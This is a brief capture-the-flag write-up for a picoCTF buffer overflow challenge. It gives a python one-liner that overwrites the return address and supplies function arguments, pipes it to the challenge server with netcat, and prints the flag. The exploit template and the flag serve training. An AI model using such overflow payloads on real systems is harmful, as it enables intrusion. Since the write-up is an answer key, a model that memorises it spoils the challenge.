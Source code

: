 Control the return address and arguments

This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/350/vuln)?

You can view source [here](https://artifacts.picoctf.net/c/350/vuln.c). And connect with it using `nc saturn.picoctf.net 58854`

### Reference

https://www.nullhardware.com/reference/hacking-101/picoctf-2018-binary-exploits/buffer-overflow-2/

The site referenced explains everything that you need to know about this challenge. To solve it, just paste the same command 
mentioned on the site, after making sure that you understood everything that was explained in there, by replacing the win address with yours
as well as the arguments. The command should look like this:

```
python -c "print("U"*108 + "U"*4 + "win_address" + "\x55\x55\x55\x55" + "4_byte_arg1" + "4_bytes_arg2")"
```
To get the flag just put this command in a file and then connect to server using netcat:

`nc saturn.picoctf.net 58854 < file`

And you'll get the flag:

`picoCTF{argum3nt5_4_d4yZ_920d6844}`
